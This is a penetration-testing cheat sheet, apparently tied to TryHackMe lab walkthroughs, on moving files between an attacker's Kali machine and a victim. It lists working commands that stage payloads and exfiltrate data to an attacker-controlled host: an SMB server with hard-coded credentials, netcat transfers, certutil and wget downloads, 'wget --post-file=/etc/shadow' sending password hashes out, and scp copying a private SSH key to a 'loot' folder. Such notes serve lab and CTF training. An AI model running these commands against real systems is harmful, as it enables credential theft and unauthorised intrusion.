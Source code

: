 # Transferring Files

## **SMB**

**Examples**

[#registry-hives](../walkthroughs/tryhackme/credentials-harvesting.md#registry-hives "mention")

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")[relevant.md](../walkthroughs/tryhackme/relevant.md "mention")

**Kali**

```
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:82/$FILE $FILE
```



## SCP

### Download File

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```





## Share Files

### PHP

**Kali**

```
php -S 0.0.0.0:82
```

### **Python2**

**Kali**

```
python2 -m SimpleHTTPServer 82
```

### **Python3**

**Kali**

```
python3 -m http.server 82
```

